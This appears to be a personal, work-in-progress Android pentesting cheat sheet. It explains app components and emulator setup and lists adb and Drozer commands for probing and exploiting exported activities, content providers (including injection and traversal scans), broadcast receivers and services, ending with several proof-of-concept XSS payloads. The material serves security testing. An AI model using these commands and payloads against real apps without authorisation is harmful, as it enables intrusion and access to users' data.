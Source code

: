```yaml
---
title: Android Pentesting Cheatsheet
tags: [Bug Bounty,Androi,Mobile Hacking,Cheatsheet]
published: false
description: A place for me to store my notes/tricks for Android Pentesting and all things mobile - Big Work in Progress :). 
toc: true
image: https://www.stickpng.com/assets/images/580b57fbd9996e24bc43bdf2.png
thumbnail: https://www.stickpng.com/assets/images/580b57fbd9996e24bc43bdf2.png
---
```




This is a massive WIP and truthfully I was planning on keeping this a private post as I am really just braindumping my techniques on here not really ordered or structured but I figured it may be useful to other people.

<img src="https://www.stickpng.com/assets/images/580b57fbd9996e24bc43bdf2.png">


Also before I continue these are my main references that have helped me build my own methodology.

* https://manifestsecurity.com/android-application-security-part-1/


# []() Introduction



Let me first say I do not think this will end up a crazy big cheat sheet to my other ones but I am at a point where I need to dump all this knowledge, commands and techniques somewhere before I forget them all. 

I want to first talk about the basic Android Stuff from File Structure, File Format and finally things such as Activities,Controls, Services, Intents & Exported Items etc and how these can be security issues when misconfigured. 



## []() Android Basics


I am no expert on Android internals but I believe I have a decent idea of how it's all pieced together enough to exploit and pentest but I am no developer...

Android Apps are all based off the popular Java programming language which are all compiled into files called `apks` aka an `Android Package` which is essential just an archive file similar to a `.zip` archive. 

A single APK file contains all the contents of an Android App and typically contains everything it requires to run unless the developer is downloading assets at runtime etc. 

ManifestSecurity have a nice diagram representing the file layout

<img src ="https://i.imgur.com/AS6V70w.png">

Within the `apk` file there are certain important files which contribute to the overall APK. 

**AndroidManifest.xml** - One of the most important files of an app, The AndroidManfest is the main file which tells the system/app what to do with all the top-level components such as activities, services, content providers and broadcast recievers etc. (This is where the misconfigurations happen)

**/res** - DIrectory containing all resources not compiled into `resources.rec`


## Android Components

Here I will now talk about the 4 main components which make up an application and c an be exploited if not configured correctly - `Acitivies` `Content-Providers``Services` and `Broadcast Recievers`

These components are activated by an "asynchronous message called an intent" - you may have heard the term `intent-filter` 

Intents also bind together components at runtime.

### Activities

An activity represents a single screen with a user interface which carries out a action, such as a activity for login and a activity for after you have logged in and you are at the main interface. 

### Content Providers

A content providers main task is to supply data from one application to another on request, for example you can store data on the local file system within `/data/data/com.m0chan.app/` and through your exported content provider another app could access this directory and/or the data it holds.

It goes without saying that if this isn't configured with proper limitations and permissions there could be a severe security issue. 

These are particuarly useful when apps want to access the data of other apps. 

### Services

Services are components of an app that may want to run in the background for a prolonged period of time. 

An example of a service may be an application such as Soundcloud which allows for music to be played in the background while you are actively accessing the Facebook app. 

### Broadcast Recievers 

A broadcast reciever is a component which responsd to system-wide broadcast annoucements.

Most apps are mainly system iniaited however apps can also iniate them, for example to let other apps know a download has finished etc.

An application may register a receiver for the low battery message for example, and change its behavior based on that information.


### [](#header-2) Setup

I planned on writing a mini tutorial here on setting up a awesome Android Pentesting Emulator but I recently binned it and moved to GenyMotion which is 100x better. 

Below are some useful links to get you started, my current setup consists of the below.

* GenyMotion Android 8.0 Emulator
* xPosed Installed
* BagiPro Recommends SSLUnpinning Module from xPosed
* Frida Installed
* Drozer Installed


The great thing about GenyMotion is the emulators come rooted and the platform is entirely free for personal use. Sadly there is no iOS support (yet)

* https://www.genymotion.com/


### [](#header-2) Static Analysis



### [](#header-2) Dynamic Analysis

#### File System Analysis


```
cd /data/data/com.package.name
ls -lrt
```

#### Database Analysis

Applications typically store data within `/data/data/com.package.name/sqlite.db` within a relevant SQLite database. This can sometimes store sensitive data and should not be used to store usernames/passwords etc.

```
adb pull /data/data/com.package.name/databases/databasename.db ~/databasename.db
```


#### Log Analysis

```
adb logcat
```





### Drozer Stuff

* [Drozer](https://github.com/FSecureLABS/drozer) - Drozer allows you to search for security vulnerabilities in apps and devices by assuming the role of an app and interacting with the Dalvik VM, other apps' IPC endpoints and the underlying OS.
    * Starting a session
      * `adb forward tcp:31415 tcp:31415`
      * `drozer console connect`
    * Retrieving package information
      * `run app.package.list -f <app name>`
      * `run app.package.info -a <package name>`
    * Identifying the attack surface
      * `run app.package.attacksurface <package name>`
    * Exploiting Activities
      * `run app.activity.info -a <package name> -u`
      * `run app.activity.start --component <package name> <component name>`
    * Exploiting Content Provider
      * `run app.provider.info -a <package name>`
      * `run scanner.provider.finduris -a <package name>`
      * `run app.provider.query <uri>`
      * `run app.provider.update <uri> --selection <conditions> <selection arg> <column> <data>`
      * `run scanner.provider.sqltables -a <package name>`
      * `run scanner.provider.injection -a <package name>`
      * `run scanner.provider.traversal -a <package name>`
    * Exploiting Broadcast Receivers
      * `run app.broadcast.info -a <package name>`
      * `run app.broadcast.send --component <package name> <component name> --extra <type> <key> <value>`
      * `run app.broadcast.sniff --action <action>`
    * Exploiting Service
      * `run app.service.info -a <package name>`
      * `run app.service.start --action <action> --component <package name> <component name>`
      * `run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj`

### Android XSS Payloads


```powershell
<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
<svg onload=alert(navigator.connection.type)>
```